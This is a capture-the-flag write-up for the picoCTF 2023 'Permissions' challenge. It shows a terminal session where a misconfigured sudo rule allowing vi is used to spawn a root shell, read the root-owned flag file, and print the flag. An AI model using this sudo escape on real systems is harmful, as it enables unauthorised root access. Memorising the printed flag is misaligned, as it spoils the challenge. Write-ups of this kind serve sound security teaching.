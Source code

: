 # Write Up for Web Exploit challenge for PICO CTF 2K23 - Permissions

> Pratyush Prakhar (5#1NC#4N) - 11/11/2023

## Description

Can you read files in the root file?

## Solution

All about the access we have. Common to use the `find` function to find useful binaries, files, dir that we own, can run or can use to escalate. found nothing good that way. Other common thing is to check `sudo -l` for all the things we can run as sudo. We got our way in like that through `vi` binary.
Check [here](https://gtfobins.github.io/gtfobins/vi/#sudo) for exploit.

```bash
picoplayer@challenge:~$ ls -la
total 12
drwxr-xr-x 1 picoplayer picoplayer   20 Nov 13 10:32 .
drwxr-xr-x 1 root       root         24 Aug  4 21:32 ..
-rw-r--r-- 1 picoplayer picoplayer  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoplayer picoplayer 3771 Feb 25  2020 .bashrc
drwx------ 2 picoplayer picoplayer   34 Nov 13 10:32 .cache
-rw-r--r-- 1 picoplayer picoplayer  807 Feb 25  2020 .profile
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo /usr/bin/vi -c ':!/bin/bash' /dev/null

root@challenge:/home/picoplayer# cd /root/.
./         ../        .bashrc    .flag.txt  .profile   
root@challenge:/home/picoplayer# cd /root/
root@challenge:~# cat  .flag.txt 
picoCTF{******************************}
```

## FLAG

picoCTF{uS1ng_v1m_3dit0r_f6ad392b}
